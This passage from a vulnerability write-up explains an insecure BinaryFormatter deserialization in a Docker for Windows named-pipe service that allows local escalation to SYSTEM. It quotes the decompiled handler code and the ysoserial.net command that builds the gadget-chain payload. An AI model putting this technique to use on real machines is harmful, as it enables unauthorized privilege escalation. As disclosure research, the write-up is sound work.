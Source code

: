 ```csharp
                    continue;
                }
                Task.Run(() => <>c__DisplayClass10_.<>4__this.HandleRequestAsync(<>c__DisplayClass10_.pipeServer));
                <>c__DisplayClass10_ = null;
            }
        }
```

<p class="cn" markdown="1">Then the **DoRunAsync** method calls the **HandleRequestAsync** method.</p>

```csharp
private async Task HandleRequestAsync(NamedPipeServerStream pipeServer)
{
    try
    {
        using (NamedPipeServerStream server = pipeServer)
        {
            byte[] sizeBytes = new byte[4];
            await server.ReadAsync(sizeBytes, 0, sizeBytes.Length);
            int size = BitConverter.ToInt32(sizeBytes, 0);
            byte[] requestBytes = new byte[size];
            await server.ReadAsync(requestBytes, 0, requestBytes.Length);
            BinaryFormatter bf = new BinaryFormatter();
            PipeRequest request = (PipeRequest)bf.Deserialize(new MemoryStream(requestBytes, 0, requestBytes.Length, false));
```

<p class="cn" markdown="1">Finally, this method calls the BinaryFormatter's **Deserialize** on untrusted data leading to code execution as **SYSTEM**.</p>

### Exploitation

<p class="cn" markdown="1">Now comes the fun bit. I first needed to create a test user account and place them into the docker-users group. Following that, I launched a command shell under that users privilege.</p>

```
C:\>net localgroup docker-users test /add
The command completed successfully.

C:\>runas /user:test cmd
Enter the password for test:
Attempting to start cmd as user "target\test" ...
```

<p class="cn" markdown="1">Then, using [ysoserial.net] I used the **BinaryFormatter** class as the formatter and used [@tiraniddo's] **TypeConfuseDelegate** gadget chain.</p>

```
C:\>ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -o raw -c "[CMD]" > poc.bin
```

<p class="cn" markdown="1">Obviously, we can't execute `[CMD]` so I modified the binary payload to accept any command for my poc. Now, it was simply a matter of testing things out!</p>


[docker]: https://www.docker.com/docker-windows
[ysoserial.net]: https://github.com/pwntester/ysoserial.net
[@tiraniddo's]: https://twitter.com/tiraniddo